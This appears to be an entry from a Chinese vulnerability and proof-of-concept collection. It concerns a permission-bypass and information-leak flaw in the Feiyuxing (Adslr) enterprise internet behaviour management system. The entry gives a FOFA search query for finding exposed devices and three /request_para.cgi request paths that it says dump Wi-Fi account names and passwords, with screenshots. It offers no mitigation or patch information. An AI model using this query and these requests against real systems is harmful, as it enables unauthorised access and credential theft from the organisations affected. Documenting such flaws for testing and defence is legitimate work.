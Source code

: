 # 飞鱼星-企业级智能上网行为管理系统-权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

> [!NOTE]
>
> 飞鱼星 企业级智能上网行为管理系统

## FOFA

> [!NOTE]
>
> title="飞鱼星企业级智能上网行为管理系统"

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![](飞鱼星-企业级智能上网行为管理系统-权限绕过信息泄露漏洞.assets/16273636209102578.jpg)

## Goby & POC

> [!NOTE]
>
> Adslr Enterprise online behavior management system Information leakage

![](飞鱼星-企业级智能上网行为管理系统-权限绕过信息泄露漏洞.assets/16273636212908201.jpg)

